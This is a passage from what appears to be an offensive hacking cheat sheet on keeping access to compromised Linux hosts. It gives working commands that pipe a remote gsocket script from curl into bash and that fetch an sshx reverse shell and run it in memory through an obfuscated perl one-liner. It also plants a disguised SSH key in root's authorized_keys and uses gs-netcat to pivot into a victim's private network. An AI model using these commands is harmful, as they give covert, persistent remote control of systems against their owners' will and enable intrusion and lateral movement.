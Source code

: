 or deploy gsocket by running your own deployment server:
```sh
LOG=results.log bash -c "$(curl -fsSL https://gsocket.io/ys)"  # Notice '/ys' instead of '/y'
```
<a id="sshx"></a>
**6.ii. Reverse shell with sshx.io (encrypted)**

Access a remote shell from your web browser [https://sshx.io](https://sshx.io).

Pipe be sshx-backdoor directly into memory:
```shell
echo $(curl -SsfL https://s3.amazonaws.com/sshx/sshx-$(uname -m)-unknown-linux-musl.tar.gz|tar xfOz - sshx 2>/dev/null \
 |nohup perl '-efor(319,279){($f=syscall$_,$",1)>0&&last};open($o,">&=".$f);print$o(<STDIN>);exec{"/proc/$$/fd/$f"}"/usr/bin/python3",("-q")' 2>/dev/null \
 |{ read x;echo "$x";}&)
```

Or the lame way:
```shell
curl -SsfL https://s3.amazonaws.com/sshx/sshx-$(uname -m)-unknown-linux-musl.tar.gz|tar xfOz - sshx 2>/dev/null >.s \
&& chmod 755 .s \
&& (PATH=.:$PATH .s -q >.u 2>/dev/null &);
for _ in {1..10}; do [ -s .u ] && break;sleep 1;done;cat .u;rm -f .u .s;
```

<a id="backdoor-auth-keys"></a>
**6.iii. authorized_keys**

Add your ssh public key to */root/.ssh/authorized_keys*. It's the most reliable backdoor ever :>

* It survives reboots.
* It even survives re-installs. Admins have been known to make a backup of authorized_keys and then put it straight back onto the newly installed system.
* We have even seen our key being copied to other companies!

Tip: Change the name at the end of the ssh public keyfile to something obscure like *backup@ubuntu* or the admin's real name:
```
$ cat id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCktFkgm40GDkqYwJkNZVb+NLqYoUNSPVPLx0VDbJM0
[...]
u1i+MhhnCQxyBZbrWkFWyzEmmHjZdAZCK05FRXYZRI9yadmvo7QKtRmliqABMU9WGy210PTOLMltbt2C
c3zxLNse/xg0CC16elJpt7IqCFV19AqfHnK4YiXwVJ+M+PyAp/aEAujtHDHp backup@ubuntu
```
<a id="backdoor-network"></a>
**6.vi. Remote Access to an entire network**

Install [gs-netcat](https://github.com/hackerschoice/gsocket). It creates a SOCKS exit-node on the Host's private LAN which is accessible through the Global Socket Relay Network without the need to run your own relay-server (e.g. access the remote private LAN directly from your workstation):

```sh
gs-netcat -l -S       # compromised Host
```

Now from your workstation you can connect to ANY host on the Host's private LAN:
```sh
gs-netcat -p 1080    # Your workstation.

# Access route.local:22 on the Host's private LAN from your Workstation:
socat -  "SOCKS4a:127.1:route.local:22"
```
Read [Use any tool via Socks Proxy](#scan-proxy).
